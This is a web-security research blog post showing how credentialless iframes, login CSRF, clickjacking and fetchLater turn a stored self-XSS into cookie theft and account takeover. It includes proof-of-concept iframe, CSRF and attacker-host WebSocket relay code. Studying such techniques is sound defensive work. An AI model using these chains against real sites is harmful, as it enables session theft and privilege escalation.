









+++
title = 'Make Self-XSS Great Again'
date = 2025-06-13T00:00:00+03:00
draft = false
+++

> **Disclaimer**: This article is intended for security professionals conducting authorized testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction

Many security researchers are familiar with the frustrating experience of discovering an XSS vulnerability that requires complex actions within an account, effectively making it only reproducible on the attacker's account and thus losing its practical value. Many bug bounty hunters have likely received responses like this from triage teams:



The purpose of this article is to demonstrate that what is commonly perceived as `Stored Self-XSS` can actually be transformed into a regular `Stored XSS` using modern browser capabilities.

# The Credentialless Era

The key challenge with such vulnerabilities presents the following dilemma:
1. To execute a useful XSS payload, we need to be logged into the attacker's account
2. If we log into the attacker's account, the attack loses its purpose since we'll be in the attacker's session and lose access to the original session

However, this approach is outdated, and the reason for this is [credentialless iframe](https://developer.mozilla.org/en-US/docs/Web/Security/IFrame_credentialless)

> This results in the documents inside the credentialless `<iframe>` being loaded using new, ephemeral contexts — those contexts don't have access to the data associated with their origins

In practice, this means that if we open an HTML page with this content:
```html
<iframe src="http://victim.domain/" width="40%" height="500px" credentialless></iframe>
<iframe src="http://victim.domain/" width="40%" height="500px"></iframe>
```

We will see that the first iframe won't have the victim's session, while the second one will:



However, this functionality is poorly documented, and the phrase `those contexts don't have access to the data associated with their origins` can be misleading.

Looking at the [RFC](https://wicg.github.io/anonymous-iframe/#alternatives-opaque-origins), we can see that credentialless iframes are same-origin with regular iframes (It's mentioned that implementing opaque-origins similar to sandbox domains wasn't implemented due to implementation difficulties):


> The credentialless iframes model that we propose relies on partitioned storage (see explainer), using a nonce in the storage key. We have also considered attributing opaque origins to the credentialless iframes, similar to sandboxed iframes. This would ensure that the credentialless iframes do not have access to existing credentials and shared storage since their origin has been changed to an opaque one. 
> 
> This solution runs into compatibility issues:
> 
> ...


# The Credentialless Same-Origin Issue

What does it mean for us that credentialless iframes are same-origin with regular iframes?

Let's consider the following page:
```html
<iframe src="https://neplox.security/xss_page_url" width="20%" height="20%" credentialless></iframe>
<iframe src="https://neplox.security/"></iframe>
```

The fact is that if `/xss` executes the following code:
```js
window.top[1].document.body.innerHTML = 'Hi from credentialless';
alert(window.top[1].document.cookie);
```

It will gain access to the original cookies of the page:


# SELF-XSS + CSRF on Login

Let's say you've found a Stored SELF-XSS. One real example from my experience looked like this:


The home page displayed a message `Welcome, username!`, where the username wasn't sanitized, allowing for any XSS payload to be inserted. This is a classic example of Self-XSS.

After this, it's worth examining the `/login` form. If it lacks CSRF protection, you can do the following:


1. Create a classic CSRF login form:
```html
<html>
<body>
  <form action="http://victim.domain/login" method="POST">
    <input type="hidden" name="username" value="attacker_username" />
    <input type="hidden" name="password" value="Super_s@fe_password" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

2. Direct the target to the following page:
```html
<iframe name="window.top[1].document.body.innerHTML = 'edited by slonser</br>' + 'Our cookie is: ' + document.cookie + '\nVictim cookie is: ' + window.top[1].document.cookie;" src="./logi-csrf-poc.html" width="40%" height="500px" credentialless></iframe>
<iframe src="http://localhost:3004/" width="40%" height="500px"></iframe>
```

3. (Optional) Redirect the user in the credentialless iframe to a URL that triggers the SELF-XSS, which will then execute the desired actions (session theft/ATO) within `window.top[1]`. Here, it's useful to note that all credentialless frames within one document share the same context. If you already have `<iframe src=//example.com credentialless>` on the page that has set cookies and localStorage, adding `<iframe src=//example.com/path1 credentialless>` will have access to the same storage data as the first credentialless frame.

In our case, it would look something like this:


As we can see, we successfully got both cookie values (attacker's and victim's). To execute actions within the frame with the victim's credentials, simply call `window.top[1].eval('your code')`

# SELF-XSS + CSRF on Login with Captcha

Sometimes you might encounter a situation where the login form lacks CSRF protection but has a CAPTCHA. This situation doesn't significantly complicate the exploit. The key point here is that CAPTCHA is not a CSRF protection mechanism, as there's no guarantee that the CAPTCHA was solved on the same device where it was submitted.

In such cases, you can simply add a CAPTCHA retrieval step to the attack from the previous section. Here's a simple client-side implementation:
```js
const ws = new WebSocket('ws://attacker.com:3004');
ws.onopen = () => {
  ws.send(JSON.stringify({ type: 'visited' }));
};

ws.onmessage = (event) => {
  const data = JSON.parse(event.data);
  if (data.type === 'captcha') {
    captchaInput.value = data.captchaToken;
  }
};
```

And on the server side:
```js
const WebSocket = require('ws');
const readline = require('readline');

const wss = new WebSocket.Server({ port: 3004 });

const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});

console.log('WebSocket server is running on port 3004');
wss.on('connection', (ws) => {
    console.log('New client connected');
    ws.on('message', (message) => {
        const data = JSON.parse(message);
        if (data.type === 'visited') {
            console.log('Client sent visited message');
            rl.question('Enter captcha token: ', (token) => {
                ws.send(JSON.stringify({
                    type: 'captcha',
                    captchaToken: token
                }));
            });
        }
    });

    ws.on('close', () => {
        console.log('Client disconnected');
    });
}); 
```

This is a simple example where when a user visits the site, we'll receive a request and need to enter the CAPTCHA token in the console (For example, by manually intercepting it through a proxy). Obviously, for real attacks, you can implement more complex logic - this is just for demonstrating one possible implementation approach.

# SELF-XSS + Clickjacking

If login CSRF is not available, we can use Clickjacking instead.
The main idea seems quite amusing - using clickjacking, we need to make the user enter attacker credentials in the login form (This is actually the complete opposite of classic vectors where people try to use social engineering to make users enter data in the attacker's form)

While I'm not an expert in such techniques, it might look something like this:

1. The user visits the attacker's site and requests access
   

2. The user receives an email with content like this:
   

3. The user goes to the attacker's site and logs in with these credentials, but instead of entering data in the form on the attacker's site, they'll be entering data in the form on `victim.com`. (Simply insert a credentialless form with an overlay from your site. Describing how to implement Clickjacking is not part of this article)

It's worth noting that everything will look valid to the user, as they'll be entering data that was sent to them from `attacker.com` on the same site. An average user is unlikely to realize that the attacker is currently using clickjacking to direct them to their account for the attack.

# X-Frame-Options: Deny

> Note: fetchLater is intended to send requests after the page is closed, but I'm not sure how I managed to make it work after page closure while writing this article. If I figure it out, I will update the article.

As you may have noticed, the techniques described above have one drawback - they will only work if we can place the target site in an iframe. But what can we do if `X-Frame-Options: Deny` is specified?

Actually, another new API that became available in spring 2025 can help us here - [fetchLater](https://developer.mozilla.org/en-US/docs/Web/API/fetchLater_API)

> The fetchLater() API provides an interface to request a deferred fetch that can be sent after a specified period of time, or when the page is closed or navigated away from.

In simple terms, this means we can now send requests after some time, even if the tab is already closed.
This opens up the possibility to send a request with the actual cookies at the time of sending, even if they have changed.
When might this be useful? This can be useful when we have a Self-XSS and we can elevate our privileges / perform ATO through a series of requests.
It looks like this:

1. Open the page with csrf-login - `window.open('https://victim.domain/csrf')`
2. From the window where you triggered the Self-XSS, register several fetchLater requests for different time intervals
```js
var req = new Request("/change_rights",{method:"POST",body:JSON.stringify({username:"victim", rights: "admin"}),credentials:"include"})
const minute = 60000
let arr = [minute, minute * 60, minute * 60 * 24, ...]
for (let timeout of arr)
  fetchLater(req,{activateAfter: timeout})
```
1. Log out of the attacker's account

When the user visits the site we're attacking next time and logs in again - after some time, the request that was formed by the attacker will be executed on their behalf, but with the current cookies. It's important to mention again that the victim should not visit the attacker's site again, as this request will already be in the background queue.


# Conclusion

In modern browsers, thanks to credentialless frames, any Stored Self-XSS can be transformed into a regular XSS. However, this will often still require minimal user interaction.

# References

1. [Credentialless iframe documentation](https://developer.mozilla.org/en-US/docs/Web/Security/IFrame_credentialless)
2. [Anonymous iframe RFC](https://wicg.github.io/anonymous-iframe/#alternatives-opaque-origins)